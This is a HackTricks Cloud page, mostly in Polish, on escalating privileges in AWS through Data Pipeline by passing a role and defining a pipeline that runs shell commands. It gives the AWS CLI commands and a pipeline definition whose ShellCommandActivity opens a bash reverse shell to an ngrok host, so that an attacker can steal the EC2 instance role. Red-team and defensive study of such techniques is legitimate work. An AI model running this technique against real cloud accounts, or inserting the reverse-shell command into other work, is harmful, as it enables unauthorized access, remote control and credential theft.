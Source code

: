 # AWS - Datapipeline Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## datapipeline

Aby uzyskać więcej informacji na temat datapipeline, sprawdź:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Użytkownicy z tymi **uprawnieniami mogą podnieść swoje uprawnienia, tworząc Data Pipeline** do wykonywania dowolnych poleceń przy użyciu **uprawnień przypisanej roli:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
Po utworzeniu potoku, atakujący aktualizuje jego definicję, aby określić konkretne działania lub tworzenie zasobów:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
Zauważ, że **rola** w **linii 14, 15 i 27** musi być rolą **możliwą do przyjęcia przez datapipeline.amazonaws.com**, a rola w **linii 28** musi być **rolą możliwą do przyjęcia przez ec2.amazonaws.com z profilem instancji EC2**.

Ponadto, instancja EC2 będzie miała dostęp tylko do roli możliwej do przyjęcia przez instancję EC2 (więc możesz ukraść tylko tę).
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
Plik **definicji potoku, stworzony przez atakującego, zawiera dyrektywy do wykonywania poleceń** lub tworzenia zasobów za pomocą API AWS, wykorzystując uprawnienia roli Data Pipeline, aby potencjalnie uzyskać dodatkowe uprawnienia.

**Potencjalny wpływ:** Bezpośrednie privesc do roli usługi ec2 określonej.

## Odniesienia

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
